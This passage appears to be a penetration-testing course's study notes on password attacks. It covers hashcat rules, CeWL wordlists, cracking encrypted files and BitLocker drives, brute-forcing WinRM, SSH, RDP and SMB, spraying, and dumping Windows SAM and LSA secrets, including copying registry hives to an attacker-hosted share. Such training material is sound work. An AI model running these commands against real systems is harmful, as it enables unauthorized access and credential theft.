| Duplicate            | d            | Duplicate entire word                                   | d                | p@ssW0rd       | p@ssW0rdp@ssW0rd       |
| Duplicate N          | pN           | Append duplicated word N times                          | p2               | p@ssW0rd       | p@ssW0rdp@ssW0rdp@ssW0rd |
| Reflect              | f            | Duplicate word reversed                                 | f                | p@ssW0rd       | p@ssW0rddr0Wss@p       |
| Rotate Left          | {            | Rotate the word left                                    | {                | p@ssW0rd       | @ssW0rdp               |
| Rotate Right         | }            | Rotate the word right                                   | }                | p@ssW0rd       | dp@ssW0r               |
| Append Character     | $X           | Append character X to end                               | $1$2             | p@ssW0rd       | p@ssW0rd12             |
| Prepend Character    | ^X           | Prepend character X to front                            | ^2^1             | p@ssW0rd       | 12p@ssW0rd             |
| Truncate left        | [            | Delete first character                                  | [                | p@ssW0rd       | @ssW0rd               |
| Truncate right       | ]            | Delete last character                                   | ]                | p@ssW0rd       | p@ssW0r               |
| Delete @ N           | DN           | Delete character at position N                          | D3               | p@ssW0rd       | p@sW0rd               |
| Extract range        | xNM          | Extract M characters from position N                    | x04              | p@ssW0rd       | p@ss                  |
| Omit range           | ONM          | Delete M characters from position N                     | O12              | p@ssW0rd       | psW0rd                |
| Insert @ N           | iNX          | Insert character X at position N                        | i4!              | p@ssW0rd       | p@ss!W0rd             |
| Overwrite @ N        | oNX          | Overwrite character at position N with X                | o3$              | p@ssW0rd       | p@s$W0rd              |
| Truncate @ N         | 'N           | Truncate word at position N                             | '6               | p@ssW0rd       | p@ssW0                |
| Replace              | sXY          | Replace all instances of X with Y                       | ss$              | p@ssW0rd       | p@$$W0rd              |
| Purge                | @X           | Purge all instances of X                                | @s               | p@ssW0rd       | p@W0rd                |
| Duplicate first N    | zN           | Duplicate first character N times                       | z2               | p@ssW0rd       | ppp@ssW0rd            |
| Duplicate last N     | ZN           | Duplicate last character N times                        | Z2               | p@ssW0rd       | p@ssW0rddd            |
| Duplicate all        | q            | Duplicate every character                               | q                | p@ssW0rd       | pp@@ssssWW00rrdd      |
| Extract memory       | XNMI         | Insert substring of length M from position N of memory  | lMX428           | p@ssW0rd       | p@ssw0rdw0            |
| Append memory        | 4            | Append word saved to memory                             | uMl4             | p@ssW0rd       | p@ssw0rdP@SSW0RD      |
| Prepend memory       | 6            | Prepend word saved to memory                            | rMr6             | p@ssW0rd       | dr0Wss@pp@ssW0rd      |
| Memorize             | M            | Memorize current word                                   | lMuX084          | p@ssW0rd       | P@SSp@ssw0rdW0RD      |

Each rule is written on a new line and determines how a given word should be transformed.

```bash
cat custom.rule

# :
# c
# so0
# c so0
# sa@
# c sa@
# c sa@ so0
# $!
# $! c
# $! so0
# $! sa@
# $! c so0
# $! c sa@
# $! so0 sa@
# $! c so0 sa@
```

We can use the following command to apply the rules in custom.rule to each word in password.list and store the mutated results in mut_password.list.

```bash
hashcat --force password_list.txt -r custom.rule --stdout | sort -u > custom_password_list.txt
```

In this case, each word will produce fifteen mutated variants.

```bash
cat custom_password_list.txt

# password
# Password
# passw0rd
# Passw0rd
# p@ssword
# P@ssword
# P@ssw0rd
# password!
# Password!
# passw0rd!
# p@ssword!
# Passw0rd!
# P@ssword!
# p@ssw0rd!
# P@ssw0rd!
```

</details>

<details>
<summary><h3>Generating wordlists using CeWL</h3></summary>

We can use a tool called CeWL to scan potential words from a company's website and save them in a list. We can then combine this list with the desired rules to create a customized password list—one that has a higher probability of containing the correct password for an employee.

| **Option(s)**                     | **Argument**     | **Description**                                                  | **Default** |
|----------------------------------|------------------|------------------------------------------------------------------|-------------|
| `-h`, `--help`                   | —                | Show help.                                                       | —           |
| `-k`, `--keep`                   | —                | Keep the downloaded file.                                        | —           |
| `-d`, `--depth`                  | `<x>`            | Depth to spider to.                                              | 2           |
| `-m`, `--min_word_length`        | —                | Minimum word length.                                             | 3           |
| `-o`, `--offsite`                | —                | Let the spider visit other sites.                                | —           |
| `-w`, `--write`                  | —                | Write the output to the file.                                    | —           |
| `-u`, `--ua`                     | `<agent>`        | User agent to send.                                              | —           |
| `-n`, `--no-words`               | —                | Don't output the wordlist.                                       | —           |
| `-a`, `--meta`                   | —                | Include meta data.                                               | —           |
| `--meta_file`                    | `<file>`         | Output file for meta data.                                       | —           |
| `-e`, `--email`                  | —                | Include email addresses.                                         | —           |
| `--email_file`                   | `<file>`         | Output file for email addresses.                                 | —           |
| `--meta-temp-dir`                | `<dir>`          | Temporary dir used by exiftool when parsing files.               | `/tmp`      |
| `-c`, `--count`                  | —                | Show the count for each word found.                              | —           |
| `-v`, `--verbose`                | —                | Verbose output.                                                  | —           |
| `--debug`                        | —                | Extra debug information.                                         | —           |

**Example**

```bash
cewl https://www.domain.com -d 4 -m 6 --lowercase -w domain_wordlist.txt
```

</details>

</details>

<details>
<summary><h2>Cracking Protected Files</h2></summary>

Attempting to crack password-protected documents is often worthwhile, as they may contain sensitive information that can be leveraged to gain further access.

JtR has many different scripts for extracting hashes from files. We can find these scripts on our system using the following command:

```bash
locate *2john*
```

Besides standalone files, we will often run across archives and compressed files—such as ZIP files—which are protected with a password.

There are many types of [compressed files](https://fileinfo.com/filetypes/compressed). Some of the more commonly encountered file extensions include `tar`, `gz`, `rar`, `zip`, `vmdb/vmx`, `cpt`, `truecrypt`, `bitlocker`, `kdbx`, `deb`, `7z`, and `gzip`.

It is possible to extract all the extensions in a list using the following command:

```bash
curl -s https://fileinfo.com/filetypes/compressed | html2text | awk '{print tolower($1)}' | grep "\." | tee -a compressed_ext.txt
```

While many archive formats natively support password protection (e.g., ZIP, RAR), others like TAR require external encryption tools. Common solutions include `openssl` or `gpg`.

<details>
<summary><h3>Cracking encrypted SSH keys</h3></summary>

1. John the Ripper (JtR) includes a Python script called **ssh2john.py** to acquire the corresponding hash for an encrypted SSH key

```bash
ssh2john.py SSH.private > ssh.hash
```

2. Then use JtR to try and crack it

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt ssh.hash
```

3. We can then view the resulting hash

```bash
john ssh.hash --show
```

</details>

<details>
<summary><h3>Cracking password-protected Office documents</h3></summary>

1. John the Ripper (JtR) includes a Python script called **office2john.py**, which can be used to extract password hashes from all common Office (Word, Excel, PowerPoint...) document formats.

```bash
office2john.py supersecret.docx > supersecret_hash.txt
```

2. Then use JtR to try and crack it

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt supersecret_hash.txt
```

3. We can then view the resulting hash

```bash
john supersecret_hash.txt --show
```

</details>

<details>
<summary><h3>Cracking password-protected PDFs</h3></summary>

1. John the Ripper (JtR) includes a Python script called **pdf2john.py**, which can be used to extract password hashes from encrypted PDF documents for offline password cracking.

```bash
pdf2john.py important_report.pdf > important_report_hash.txt
```

2. Then use JtR to try and crack it

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt important_report_hash.txt
```

3. We can then view the resulting hash

```bash
john important_report_hash.txt --show
```

</details>

<details>
<summary><h3>Cracking ZIP files</h3></summary>

1. John the Ripper (JtR) includes a utility called zip2john, which extracts password hashes from encrypted ZIP archives and formats them for cracking.

```bash
zip2john files.zip > files_hash.txt
```

2. Then use JtR to try and crack it

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt files_hash.txt
```

3. We can then view the resulting hash

```bash
john files_hash.txt --show
```

</details>

<details>
<summary><h3>Cracking OpenSSL encrypted GZIP files</h3></summary>

1. To determine if a GZIP file is encrypted, we can use the following command:

```bash
file compressed_files.gzip 

# compressed_files.gzip.gzip: openssl enc'd data with salted password
```

2. To systematically attempt decryption of the file using a wordlist, execute the following one-liner:

```bash
for i in $(cat /usr/share/wordlists/rockyou.txt);do openssl enc -aes-256-cbc -d -in <FILE> -k $i 2>/dev/null| tar xz;done
```

3. You may encounter multiple GZIP decompression warnings or errors:

```bash
# ...

# gzip: stdin: not in gzip format
# tar: Child returned status 1
# tar: Error is not recoverable: exiting now

# ...
```

Once the for loop has finished, we can check the current directory for a newly extracted file.

</details>

<details>
<summary><h3>Cracking BitLocker-encrypted drives</h3></summary>

[BitLocker](https://learn.microsoft.com/en-us/windows/security/operating-system-security/data-protection/bitlocker/#device-encryption) is a full-disk encryption feature developed by Microsoft for the Windows operating system.

John the Ripper (JtR) includes a utility called **bitlocker2john**, which extracts [four distinct hash types](https://openwall.info/wiki/john/OpenCL-BitLocker) from BitLocker-encrypted drives: two password-based hashes for user authentication and two recovery key hashes for backup access. We will focus on cracking the password using the first hash.

1. Extract the hashes

```bash
bitlocker2john -i backup.vhd > backup_hashes.txt
```

2. Filter the line that contains the BitLocker hash

```bash
grep "bitlocker\$0" backup_hashes.txt > backup_hash.txt
```

3. Then use JtR or Hahcat to try and crack it

**Hashcat**

```bash
hashcat -a 0 -m 22100 '<BITLOCKER_HASH>' /usr/share/wordlists/rockyou.txt
```

**John**

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt backup_hash.txt
```

<details>
<summary><h4>Mounting BitLocker-encrypted drives in Windows</h4></summary>

The easiest method for mounting a BitLocker-encrypted virtual drive on Windows is to double-click the .vhd file. Since it is encrypted, Windows will initially show an error. After mounting, simply double-click the BitLocker volume to be prompted for the password.

</details>

<details>
<summary><h4>Mounting BitLocker-encrypted drives in Linux (or macOS)</h4></summary>

To do this, we can use a tool called [dislocker](https://github.com/Aorimn/dislocker).

1. Install the tool

```bash
sudo apt-get install dislocker
```

2. Create two folders which we will use to mount the VHD

```bash
sudo mkdir -p /media/bitlocker
sudo mkdir -p /media/bitlockermount
```

3. Use losetup to configure the VHD as loop device

```bash
sudo losetup -f -P backup.vhd
```

4. List the devices

```bash
sudo losetup -l
```

5. List the partitions of the device

```bash
sudo fdisk -l /dev/loop0
```

6. Decrypt the drive using dislocker

```bash
sudo dislocker /dev/loop0p1 -u<PASSWORD> -- /media/bitlocker
```

7. Mount the decrypted volume

```bash
sudo mount -o loop /media/bitlocker/dislocker-file /media/bitlockermount
```

8. If everything was done correctly, we can now browse the files:

```bash
cd /media/bitlockermount/
ls -la
```

</details>

</details>

</details>

</details>

---

<details>
<summary><h1>Remote Password Attacks</h1></summary>

During security assessments, we consistently encounter numerous network services configured with specific permissions and user assignments. These services facilitate content management, data exchange, and system administration across enterprise environments.

**Recommended Resource**

For comprehensive service enumeration techniques, refer to the [FOOTPRINTING](./01-footprinting.md) module.

<details>
<summary><h2>NetExec: A Versatile Tool</h2></summary>

NetExec serves as a powerful, modular framework for conducting password attacks and protocol-specific exploitation across network environments.

**Installing NetExec**

```bash
sudo apt-get -y install netexec
```

**NetExec Menu Options**

```bash
netexec -h
```

**NetExec Available Protocols**

* MSSQL
* WinRM
* LDAP
* SMB
* SSH
* VNC
* WMI
* FTP
* RDP

**NetExec Protocol-Specific Help**

```bash
netexec <PROTOCOL> -h
```

**NetExec Usage**

```bash
netexec <PROTOCOL> <TARGET_IP> -u <USER> -p <PASSWORD>
```

> The username and password fields can be just a string or a wordlist file.

</details>

<details>
<summary><h2>Network Services</h2></summary>

<details>
<summary><h3>WinRM</h3></summary>

[WinRM](https://learn.microsoft.com/en-us/windows/win32/winrm/portal) is Microsoft's implementation of the [WS-Management protocol](https://learn.microsoft.com/en-us/windows/win32/winrm/ws-management-protocol), providing a standardized framework for remote Windows system administration.

<!-- 
**1. Functional Capabilities**

* Remote command execution

* System configuration management

* Real-time performance monitoring

**2. Authentication Methods**

* Basic

* NTLM

* Kerberos

* Certificate-based

**3. Security Considerations**

* Often misconfigured with excessive privileges

* Common target for lateral movement attacks

* Requires proper certificate management for HTTPS implementations

A handy tool that we can use to communicate with the WinRM service is Evil-WinRM, which allows us to communicate with the WinRM service efficiently.
 -->

**CrackMapExec**

Brute Force Login

```bash
crackmapexec winrm <TARGET_IP> -u <USER_LIST> -p <PASSWORD_LIST> -q
```

**Evil-WinRM**

Install

```bash
sudo gem install evil-winrm
```

Usage

```bash
evil-winrm -i <TARGET_IP> -u <USER> -p <PASSWORD>
```

Expected output

```bash
# Evil-WinRM shell v3.3

# Info: Establishing connection to remote endpoint

# *Evil-WinRM* PS C:\Users\user\Documents>
```

> **NOTE:** If the login was successful, a terminal session is initialized using the Powershell Remoting Protocol (MS-PSRP), which simplifies the operation and execution of commands.

</details>

<details>
<summary><h3>SSH</h3></summary>

<!-- Secure Shell (SSH) is a more secure way to connect to a remote host to execute system commands or transfer files from a host to a server. The protocol implements three cryptographic primitives:

1. Symmetric Encryption

    * Uses shared secret keys (AES-256, ChaCha20, etc.) for session encryption

    * Implements Ephemeral Diffie-Hellman for secure key exchange

    * Key characteristics:

        * 128-512 bit keys (configurable)

        * Encrypts all subsequent communications

        * Common ciphers: AES-GCM, Blowfish, 3DES (deprecated)

2. Asymmetric Encryption

    * Leverages key pairs (RSA/ECDSA/Ed25519) for:

        * Host authentication

        * Key exchange initialization

    * Critical security considerations

        * Private keys should always be passphrase-protected

        * Default key locations (`~/.ssh/id_rsa`) are common attack targets

3. Hashing (HMAC)

    * Verifies message integrity via SHA-2/SHA-3 algorithms

    * Prevents replay attacks and tampering -->

We can use a tool like **Hydra** to brute force SSH. This is covered in-depth in the [LOGIN BRUTE FORCING](./13-login-brute-forcing.md) module.

**Hydra - SSH**

Brute force SSH

```bash
hydra -L <USER_LIST> -P <PASSWORD_LIST> ssh://<TARGET_IP>
```

Log in to the system via SSH

```bash
ssh <USER>@<TARGET_IP>
```

> The username and password fields can be just a string or a wordlist file.

</details>

<details>
<summary><h3>Remote Desktop Protocol (RDP)</h3></summary>

[Microsoft's Remote Desktop Protocol](https://learn.microsoft.com/en-us/troubleshoot/windows-server/remote/understanding-remote-desktop-protocol) (RDP) is a network protocol that allows remote access to Windows systems via TCP port 3389 by default.

**Hydra - RDP**

```bash
hydra -L <USER_LIST> -P <PASSWORD_LIST> rdp://<TARGET_IP>
```

> The username and password fields can be just a string or a wordlist file.

Log in to the system via xFreeRDP

```bash
xfreerdp /v:<TARGET_IP> /u:<USER> /p:<PASSWORD>
```

</details>

<details>
<summary><h3>SMB</h3></summary>

[Server Message Block](https://learn.microsoft.com/en-us/windows/win32/fileio/microsoft-smb-protocol-and-cifs-protocol-overview) (SMB) is a protocol responsible for transferring data between a client and a server in local area networks.

1. Brute Force Credentials

**Hydra - SMB**

```bash
hydra -L <USER_LIST> -P <PASSWORD_LIST> -V <TARGET_IP> smb
```

> The username and password fields can be just a string or a wordlist file.

**OPTION 1: CrackMapExec - SMB**

```bash
crackmapexec smb <TARGET_IP> -u <USER_LIST> -p <PASSWORD_LIST>
```

> The username and password fields can be just a string or a wordlist file.

**OPTION 2: Metaploit - SMB**

```bash
sudo msfconsole -q

msf6 > use auxiliary/scanner/smb/smb_login
msf6 > options
msf6 > set USER_FILE <USER_LIST>
msf6 > set PASS_FILE <PASSWORD_LIST>
msf6 > set RHOSTS <TARGET_IP>
msf6 > set STOP_ON_SUCCESS true
msf6 > set CreateSession true

msf6 > run
```

If valid credentials credentials were found, a session is created

```bash
msf6 > sessions

msf6 > sessions -i <SESSION_ID>

SMB (<TARGET_IP>) > shares

SMB (<TARGET_IP>) > shares -i <SHARE_ID>
```


2. List Shares

We can use NetExec to view the available shares and what privileges we have for them.

```bash
netexec smb <TARGET_IP> -u "<USER>" -p "<PASSWORD>" --shares
```

3. Log in to the system via Smbclient

```bash
smbclient -U <USER> \\\\<TARGET_IP>\\<SHARENAME>
```

</details>

</details>

<details>
<summary><h2>Spraying, Stuffing, and Defaults</h2></summary>

<details>
<summary><h3>Password spraying</h3></summary>

Password spraying is a credential-based attack where a single password is tested against multiple user accounts before moving to the next password. 

This technique:

* Avoids account lockouts by spacing attempts

* Exploits weak organizational password policies

* Targets default/initial passwords (e.g., CompanyName123, Welcome1)

High-risk scenarios:

* Default credentials in onboarding processes  

* Password reuse across departments  

* Lack of multi-factor authentication (MFA)

| Target Environment       | Recommended Tools                          | Protocol/Port Focus        |
|--------------------------|--------------------------------------------|---------------------------|
| Web Applications         | Burp Suite Intruder, OWASP ZAP             | HTTP/HTTPS (80, 443)      |
| Active Directory         | NetExec, Kerbrute                          | LDAP/SMB (389, 445)       |
| Cloud Services           | MSOLSpray, Okta API scripts                | REST APIs (443)           |
| Legacy Systems           | Hydra, Metasploit auxiliary modules        | SSH/RDP (22, 3389)        |

**Example**

```bash
netexec smb 10.100.38.0/24 -u <USERNAMES> -p 'Corp1234'
```

</details>

<details>
<summary><h3>Credential stuffing</h3></summary>

Credential stuffing leverages compromised credentials from one service to gain unauthorized access to unrelated systems, exploiting widespread password reuse across platforms (email, SaaS, enterprise systems).

```bash
hydra -C user_pass_list.txt ssh://<TARGET_IP> -t 4 -W 5
```

</details>

<details>
<summary><h3>Default credentials</h3></summary>

Network infrastructure devices and enterprise software frequently ship with factory-set credentials, creating critical exposure when left unmodified during deployment.

While several lists of known default credentials are available online, there are also dedicated tools that automate the process. One widely used example is the [Default Credentials Cheat Sheet](https://github.com/ihebski/DefaultCreds-cheat-sheet).

Install

```bash
pip3 install defaultcreds-cheat-sheet
```

Once installed, we can use the creds command to search for known default credentials associated with a specific product or vendor.

```bash
creds search <KEYWORD>
```

Example:

```bash
creds search linksys --export

# +---------------+---------------+------------+
# | Product       |    username   |  password  |
# +---------------+---------------+------------+
# | linksys       |    <blank>    |  <blank>   |
# | linksys       |    <blank>    |   admin    |
# | linksys       |    <blank>    | epicrouter |
# | linksys       | Administrator |   admin    |
# | linksys       |     admin     |  <blank>   |
# | linksys       |     admin     |   admin    |
# | linksys       |    comcast    |    1234    |
# | linksys       |      root     |  orion99   |
# | linksys       |      user     |  tivonpw   |
# | linksys (ssh) |     admin     |   admin    |
# | linksys (ssh) |     admin     |  password  |
# | linksys (ssh) |    linksys    |  <blank>   |
# | linksys (ssh) |      root     |   admin    |
# +---------------+---------------+------------+

# [+] Creds saved to /tmp/linksys-usernames.txt , /tmp/linksys-passwords.txt 📥
```


</details>

</details>

</details>

</details>

---

<details>
<summary><h1>Extracting Passwords from Windows Systems</h1></summary>

<details>
<summary><h2>Attacking SAM, SYSTEM, and AUTHORITY</h2></summary>

With administrative access to a Windows system, we can attempt to quickly dump the files associated with the SAM database, transfer them to our attack host, and begin cracking the hashes offline. Performing this process offline allows us to continue our attacks without having to maintain an active session with the target.

<details>
<summary><h3>Registry Hives</h3></summary>

There are three registry hives we can copy if we have local administrative access to a target system, each serving a specific purpose when it comes to dumping and cracking password hashes.

| Registry Hive   | Description |
|----------------|-------------|
| `HKLM\SAM`     | Contains password hashes for local user accounts. These hashes can be extracted and cracked to reveal plaintext passwords. |
| `HKLM\SYSTEM`  | Stores the system boot key, which is used to encrypt the SAM database. This key is required to decrypt the hashes. |
| `HKLM\SECURITY`| Contains sensitive information used by the Local Security Authority (LSA), including cached domain credentials (DCC2), cleartext passwords, DPAPI keys, and more. |

</details>

1. **Use reg.exe to save copies of the registry hives *(requires launching cmd.exe with administrative privileges)***

    **Target Machine:** Save the contents of the HKLM\SAM registry hive to a file named 'sam.save' on the C:\ drive

    ```cmd
    C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save
    ```

    **Target Machine:** Save the contents of the HKLM\SYSTEM registry hive to a file named 'system.save' on the C:\ drive

    ```cmd
    C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save
    ```

    **Target Machine:** Save the contents of the HKLM\SECURITY registry hive to a file named 'security.save' on the C:\ drive

    ```cmd
    C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save
    ```

    After saving the registry hives offline, we can transfer them to our attack host using several methods. In this example, we'll use Impacket's smbserver along with basic CMD commands to copy the hive files to a shared folder hosted on the attacker machine.

2. Transfer the files from the target machine to the attack machine

    **Attack Machine:** Create a share with smbserver

    ```bash
    sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support <NEW_SHARE_NAME> /home/ltnbob/Documents/
    ```

    **Target Machine:** Transfer the hive copies to the share

    ```bash
    C:\> move sam.save \\<ATTACKER_IP>\<NEW_SHARE_NAME>
    ```

    ```bash
    C:\> move security.save \\<ATTACKER_IP>\<NEW_SHARE_NAME>
    ```

    ```bash
    C:\> move system.save \\<ATTACKER_IP>\<NEW_SHARE_NAME>
    ```

3. **Dump the hashes with secretsdump**

    **Attack Machine:** Run [`secretsdump.py`](../scripts/passwords/secretsdump.py) with Python and specify each of the hive files we retrieved from the target host.

    ```bash
    python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
    ```

    Notice the following line:

    ```bash
    # Dumping local SAM hashes (uid:rid:lmhash:nthash)
    ```

    This tells us how to interpret the output and which hashes we can attempt to crack. 
    
    With this in mind, we can extract the NT hashes for each user account into a text file and begin the password cracking process. Keeping track of which hash belongs to which user is helpful for organizing and interpreting the results.

    > **NOTE:** The first step secretsdump performs is retrieving the system bootkey, which is required to decrypt the local SAM hashes. This is because the bootkey is used to encrypt and decrypt the SAM database. Without access to it, the hashes cannot be decrypted—making it essential to have copies of the relevant registry hives, as previously discussed.

4. **Crack the hashes with Hashcat**

    **Attack Machine:** Populate a text file with the NT hashes we were able to dump

    ```bash
    nano windowshashes.txt

    # 64f12cddaa88057e06a81b54e73b949b
    # 31d6cfe0d16ae931b73c59d7e0c089c0
    # 6f8c3f4d3869a10f3b4f0522f537fd33
    # 184ecdda8cf1dd238d438c4aea4d560d
    # f7eb9c06fafaa23c4bcf22ba6781c1e2
    ```

    **Attack Machine:** Run Hashcat against NT hashes

    ```bash
    sudo hashcat -m 1000 windowshashes.txt /usr/share/wordlists/rockyou.txt
    ```

    Obtaining these passwords can be valuable in several ways. For instance, the cracked credentials might allow us to access other systems on the network—especially since password reuse across different work or personal accounts is common. Understanding and applying this technique is particularly useful during assessments and can be leveraged whenever we compromise a vulnerable Windows system and obtain administrative privileges to dump the SAM database.

<details>
<summary><h3>DCC2 hashes</h3></summary>

As previously mentioned, `HKLM\SECURITY` contains cached domain logon information, specifically in the form of DCC2 hashes. These are local, hashed representations of network credentials. 

**Example hash**

```
inlanefreight.local/Administrator:$DCC2$10240#administrator#23d97555681813db79b2ade4b4a6ff25
```

**Run Hashcat against NT hashes**

```bash
hashcat -m 2100 '$DCC2$10240#administrator#23d97555681813db79b2ade4b4a6ff25' /usr/share/wordlists/rockyou.txt
```

</details>

<details>
<summary><h3>DPAPI</h3></summary>

The Data Protection Application Programming Interface (DPAPI) is a set of Windows APIs used to encrypt and decrypt data blobs on a per-user basis. These encrypted blobs are employed by various Windows features and third-party applications to securely store sensitive information.

| Applications              | Use of DPAPI                                                                                   |
|--------------------------|------------------------------------------------------------------------------------------------|
| Internet Explorer        | Password form auto-completion data (username and password for saved sites).                    |
| Google Chrome            | Password form auto-completion data (username and password for saved sites).                    |
| Outlook                  | Passwords for email accounts.                                                                  |
| Remote Desktop Connection| Saved credentials for connections to remote machines.                                          |
| Credential Manager       | Saved credentials for accessing shared resources, joining Wireless networks, VPNs and more.    |

DPAPI encrypted credentials can be decrypted manually with tools like Impacket's [dpapi](https://github.com/fortra/impacket/blob/master/examples/dpapi.py), [mimikatz](https://github.com/gentilkiwi/mimikatz), or remotely with [DonPAPI](https://github.com/login-securite/DonPAPI).

<!-- TODO: ADD EXAMPLES  -->

</details>

<details>
<summary><h3>Remote dumping & LSA secrets considerations</h3></summary>

With credentials that have local administrator privileges, it's also possible to target LSA secrets remotely. This can enable the extraction of credentials stored by running services, scheduled tasks, or applications that save passwords using LSA secrets.

**Dumping LSA secrets remotely**

```bash
netexec smb <TARGET IP> --local-auth -u <USERNAME> -p <PASSWORD> --lsa
```

**Dumping SAM Remotely**

```bash
netexec smb <TARGET IP> --local-auth -u <USERNAME> -p <PASSWORD> --sam
```

</details>

</details>

</details>

---

📘 **Next step:** Continue with [COMMON SERVICES](./08-common-services.md)